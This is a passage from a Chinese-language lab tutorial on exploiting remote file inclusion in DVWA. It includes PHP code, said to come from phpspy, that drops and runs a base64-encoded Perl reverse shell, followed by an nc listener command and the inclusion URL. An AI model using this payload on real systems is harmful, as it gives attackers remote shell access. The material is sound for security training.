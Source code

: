```
} 
function cf($fname,$text){ 
if($fp=@fopen($fname,'w')) { 
@fputs($fp,@base64_decode($text)); 
@fclose($fp); 
} 
} 
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
$usedb = array('perl'=>'perl','c'=>'c'); 
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
cf('/tmp/.bc',$back_connect); 
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 


?> 
```

该程序中有这两个变量：

```
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
```

yourip 是当前设备的 IP 地址，yourport 可以随便设置，主要不要冲突即可。

> **注意**：这是从 phpspy 中的截取的反弹 shell 的代码

然后使用 `:wq` 保存并退出

接着我们使用 nc 命令来监听我们刚刚所设置的端口：

```
nc -nvlp 1111
```

我们会看到终端中有 `listening on [any] 1111` 的提示，若说明我们正在监听这个端口，只要有请求进来我们就会连接上

然后我们在 firefox 中访问这样的 URL：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/test.txt
```
